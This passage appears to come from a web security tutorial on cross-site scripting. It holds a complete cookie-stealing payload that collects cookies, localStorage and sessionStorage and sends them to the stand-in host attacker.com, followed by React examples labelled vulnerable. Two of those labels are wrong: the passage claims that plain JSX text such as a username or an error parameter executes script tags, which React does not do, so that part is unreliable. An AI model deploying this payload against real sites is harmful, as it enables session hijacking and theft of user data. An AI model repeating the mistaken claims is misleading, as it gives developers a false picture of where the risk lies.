 #### Attack 6: Cookie Stealing via XSS

```javascript
// Complete cookie stealing payload
const payload = `
<script>
(function() {
    // Steal all cookies
    var cookies = document.cookie;
    
    // Steal localStorage
    var storage = JSON.stringify(localStorage);
    
    // Steal session storage
    var session = JSON.stringify(sessionStorage);
    
    // Send to attacker server
    var img = new Image();
    img.src = 'https://attacker.com/steal?' +
        'cookie=' + encodeURIComponent(cookies) +
        '&local=' + encodeURIComponent(storage) +
        '&session=' + encodeURIComponent(session) +
        '&url=' + encodeURIComponent(window.location.href);
})();
</script>
`;

// Inject this payload via any XSS vector
```

### 💡 What Makes This Vulnerable?

**Vulnerable React Code:**
```javascript
// UserProfile.js - Unsafe rendering
function UserProfile() {
  const [userData, setUserData] = useState({});
  
  return (
    <div>
      {/* DANGEROUS - Renders HTML from user data */}
      <div dangerouslySetInnerHTML={{ __html: userData.bio }} />
      
      {/* Also vulnerable if data contains HTML */}
      <h2>{userData.username}</h2>  {/* If username has <script> tags */}
    </div>
  );
}

// Error messages reflecting user input
function LoginPage() {
  const error = new URLSearchParams(window.location.search).get('error');
  
  return (
    <div>
      {/* Vulnerable if error parameter contains script */}
      <div className="alert">{error}</div>
    </div>
  );
}
```
